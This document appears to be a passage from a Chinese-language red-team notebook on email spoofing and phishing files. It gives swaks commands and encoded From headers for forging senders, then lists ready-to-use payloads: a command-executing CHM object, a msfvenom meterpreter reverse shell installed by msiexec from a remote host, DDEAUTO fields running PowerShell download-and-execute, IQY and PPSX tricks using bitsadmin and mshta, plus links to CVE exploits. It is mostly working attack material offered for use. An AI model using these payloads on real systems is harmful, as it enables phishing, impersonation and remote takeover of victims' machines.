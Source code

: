 邮件伪造测试:
1.在QQ邮箱中导出mail.eml文件,删除前面不必要的字段信息
2.填充发件人别名,伪造邮件头From字段
From:=?gb2312?B?udzA7dSxIDxhZG1pbkBxcS5jb20+0aGhoaGhoaGhoaGhoaGhoaGhoaGhoQ==?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?=
=?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoSAgICAgICAgICAgICAgICAgIKGkoaQ=?=
=?gb2312?B?oaQgICAgICAgICAgICAgICAgIKGhICAgICAgIKGkoaShpA==?=  <admin@test.com>
3.使用--data参数发送邮件
sudo ./swaks --data mail.eml --to xx@qq.com --from admin@test.com
12.8.	钓鱼文件
12.8.1.	1.传统宏文件
2.CHM钓鱼
	index.html
	<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
	command exec 
	<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
	<PARAM name="Command" value="ShortCut">
	 <PARAM name="Button" value="Bitmap::shortcut">
	 <PARAM name="Item1" value=", calc.exe">
	 <PARAM name="Item2" value="273,1,1">
	</OBJECT>
	<SCRIPT>
	x.Click();
	</SCRIPT>
	</body></html>
	EasyCHM工具生成即可
3.https://github.com/0x09AL/CVE-2018-8174-msf
4.Windows 快捷键
	msfvenom -p windows/meterpreter/reverse_tcp lhost=xxxx lport=1234 -f msi > shell.txt
	c:\windows\system32\msiexec.exe /q /i http://xxxx/shell.txt
5.构造DDE钓鱼文档
	创建一个文档,打开后Ctrl + f9快捷键创建一个域,在花括号中添加
	DDEAUTO c:\windows\system32\cmd.exe "/k calc.exe"
	DDEAUTO "C:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString('http://xx.xx.xx.xx/1.ps1'); # " "Microsoft Document Security Add-On"
6.word中插入外部对象(OLE)方式欺骗
	打开文档后点击对象，由文件创建，文件名:http://xxxx/artifact.exe 点击后上线
7.IQY特性钓鱼
	powershell –exec bypass –Command "& {Import-Module 'C:\xx\nishang-master\Client\Out-WebQuery.ps1';Out-WebQuery -URL http://192.168.1.5/iqy.html}"
	iqy.html
	=cmd|' /c bitsadmin /transfer c6c5 http://ip:port/a %APPDATA%\c6c5.exe&%APPDATA%\c6c5.exe&del %APPDATA%\c6c5.exe '!A0
	excel打开iqy文件 启用
8.PPT 动作按钮特性构造 PPSX钓鱼
	操作设置 鼠标悬停 运行程序 c:\windows\system32\mshta.exe http://xxxx/xx.hta
	保存成ppsx格式
	启用
9.RAR解压钓鱼
	WinRAR漏洞exp:
	https://github.com/WyAtu/CVE-2018-20250
13.	企业信息
13.1.	微信公众号
13.2.	天眼查
13.3.	企查查
13.4.	crunchbase
14.	邮箱
14.1.	任意地址发送邮件
14.1.1.	http://sendmail.romeng.men/
14.2.	搜集账户